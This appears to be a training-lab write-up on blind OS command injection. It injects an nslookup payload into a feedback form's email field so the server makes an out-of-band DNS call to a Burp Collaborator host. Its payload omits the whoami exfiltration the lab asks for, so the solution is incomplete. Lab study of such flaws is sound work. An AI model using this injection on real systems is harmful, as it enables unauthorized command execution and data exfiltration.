 # Lab 4 - Blind OS command injection with out-of-band data exfiltration

```
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.
```
### Solution - 

We first create a external server ie . collaborator server.

![image](https://user-images.githubusercontent.com/67383098/225314001-fc343a73-6fc5-498a-8ea8-bbaab4682c33.png)

Copy the collaborator server link - `http://zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net/`

Paste the payload ` & nslookup zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # ` (URL - encode ) in the email parameter .

![image](https://user-images.githubusercontent.com/67383098/225314704-8214e8e5-af55-4af7-af05-81e0fcb4c061.png)

Now click SEND button, click `POLL NOW button in `burp collaborator` ,

![image](https://user-images.githubusercontent.com/67383098/225315163-0dcaaa6d-3962-410f-91e4-725784cfdd96.png)

